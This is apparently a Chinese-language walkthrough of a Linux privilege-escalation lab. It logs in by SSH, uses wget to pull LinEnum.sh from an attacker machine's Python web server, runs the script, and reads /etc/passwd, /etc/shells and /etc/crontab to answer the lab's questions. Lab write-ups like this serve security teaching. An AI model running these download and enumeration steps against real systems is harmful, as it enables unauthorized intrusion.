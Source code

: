**答题**

首先，使用凭据 user3: password 通过SSH登录目标机器，这是为了模拟普通权限用户，假设我们在目标系统上已经获得了立足点。

![image-20221008205919472](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008205919472.png)

在LinEnum文件的目录下，使用攻击机的终端开启一个python webserver，然后在SSH界面使用" wget "命令下载攻击机上的LinEnum文件到目标机上：

```shell
#在攻击机的终端：
python3 -m http.server 8000
#在SSH界面：
wget http://10.14.30.69:8000/LinEnum.sh
```

![image-20221008210551252](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008210551252.png)

给目标上的LinEnum附加可执行权限，运行LinEnum：

```shell
chmod +x LinEnum.sh 
./LinEnum.sh 
```

![image-20221008212719280](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008212719280.png)

找到目标的主机名：

![image-20221008212837885](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008212837885.png)

> polobox
>
> 或者不使用LinEnum，在目标上执行命令：hostname

查看/etc/passwd 的输出结果，看一下目标系统上有多少个“ user \[ x ]”

![image-20221008212948136](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008212948136.png)

> 8
>
> 或者不使用LinEnum，在目标上执行命令：cat /etc/passwd

查看目标系统上有多少个可用的 shell

![image-20221008213123379](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008213123379.png)

> 4
>
> 或者不使用LinEnum，在目标上执行命令：cat /etc/shells

查看被 cron 设置为每5分钟运行一次的 bash 脚本的名称

![image-20221008213315327](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008213315327.png)

> autoscript.sh
>
> 或者不使用LinEnum，在目标上执行命令：cat /etc/crontab
